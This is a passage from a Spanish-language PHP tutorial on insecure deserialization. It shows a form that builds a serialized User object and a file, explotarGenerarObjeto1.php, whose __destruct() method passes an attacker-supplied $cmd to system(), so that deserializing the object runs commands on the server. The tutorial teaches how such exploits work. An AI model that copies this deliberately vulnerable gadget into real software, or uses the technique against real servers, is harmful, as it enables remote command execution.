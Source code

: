 ~~~
        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select><br><br>

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea><br><br>

        <p>
            <strong>Enlace para probar:</strong><br>
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        </p>
    <?php endif; ?>
</body>
</html>

~~~

Este cambio introduce:

- Una nueva propiedad **$cmd** que contendrá el comando a ejecutar.

- El método **__destruct()** que se dispara automáticamente al final del script (cuando el objeto es destruido), lo que lo hace perfecto para ilustrar la explotación por deserialización.

Vamos a modificar el objeto malicioso para introducir un código a ejecutar. El atacante de esta manera, podría serializar el objeto introduciendo un código para ejecutar en nuestro servidor, Este archivo lo llamo **explotarGenerarObjeto1.php**:

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if (!empty($this->cmd)) {
            // ⚠️ Ejecución insegura de código del sistema
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';
    $user->cmd = $_POST['cmd'] ?? '';

    $serialized = serialize($user);
}
?>

~~~